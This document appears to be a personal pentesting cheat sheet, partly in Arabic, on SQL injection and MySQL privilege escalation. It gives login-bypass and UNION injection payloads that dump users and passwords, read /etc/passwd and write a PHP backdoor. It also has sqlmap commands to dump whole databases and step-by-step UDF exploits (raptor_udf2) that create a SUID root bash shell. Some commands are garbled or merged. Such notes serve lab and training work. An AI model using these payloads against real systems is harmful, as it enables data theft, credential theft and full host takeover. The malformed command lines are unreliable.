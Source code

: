 # SQL
### Authentication bypass

‘ or 1=1 #

‘ or 1=1 —

‘ or 1=1 ; #

‘or 1=1 ; —

---

### Enum database

check input field → ‘ 

- 1’ order by 3 # —> to know number of columns
    - 1’ or ‘1’=’1 —> retrieve all data
- 1’ or 0=0 union select null, version() # —> db version
- 1’ or 0=0 union select null, user() # —> db user
- %’ or 0=0 union select null, database() # —> db name
- %’ and1=0 union select null, table_name from information_schema.tables # —> print all tables in all db
- %’ and 1=0 union select null, schema_name from information_schema.schemata # —> print all DB.s
- %’ and 1=0 union select table_schema, table_name from information_schema.tables # —> print all tables and db.s
- %’ and 1=0 union select table_name , columns_name from information_schema.columns # —> print all columns from all tables
- %’ 1=0 union select user, password from dvwa.users # —> we are in :3
- %’ 1=0 union select null, load_file(’/etc/passwd’) # —> the evil part :3
- %’ 1=0 union select null. “write everything you want :3  “ into OUTFILE ‘/tmp/backdoor.php’ #

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Table_schema ⇒ ودا اللى فيه كل الداتا بيزس

Table_name ⇒ ودا فيه كل التيبل نيم اللى ف الداتا بيزس

select table name from informayion_schema.tables

select <column name> from <database.table>

---

## SQLMAP

**Simple HTTP GET Based Test**

`sqlmap -u https://testsite.com/page.php?id=7 --dbs`

**Simple HTTP POST Based Test**

**`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`**

`sqlmap -r req.txt -p blood_group --dbs`
⇒ Now that we have the databases, let's extract tables from the database ←→

**Using GET based Method**

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`**
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**Using POST based Method**

**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`**

`sqlmap -r req.txt -p blood_group -D blood --tables`

Once we have available tables, now let’s gather the columns from the table **blood_db**

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

**`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`**

Or we can simply dump all the available databases and tables using the following commands.

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-allsqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`

**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-allsqlmap -r req.txt-p  -D <database_name> --dump-all`
-------------------

If Mysql Is Running as root and you have credentials to access it then :

```sql
mysql> show databases;
mysql> use <table>;
mysql> CREATE FUNCTION sys_eval RETURNS INT SONAME ‘lib_mysqludf_sys.so’;
mysql> \! clear
mysql> select sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+x /var/tmp/bash");
mysql> exit
```

.

```bash
# cd /var/tmp

# ./bash -p



bash-3.2# id
root
```

Or you can Do :
[•] Exploit Link : https://www.exploit-db.com/exploits/1518

[•] transfer this exploit to the target and use the following commands to compile it :

```bash
# gcc -g -c raptor_udf2.c -fPIC

# gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

[•] Connect to mysql service as root.

```sql
mysql -uroot
```

[•] Execute the following commands on the MySQL shell :

```sql
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```

[•] Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

[•] Exit out of the MySQL shell and Type :

```sql
/tmp/rootbash -p
```

.
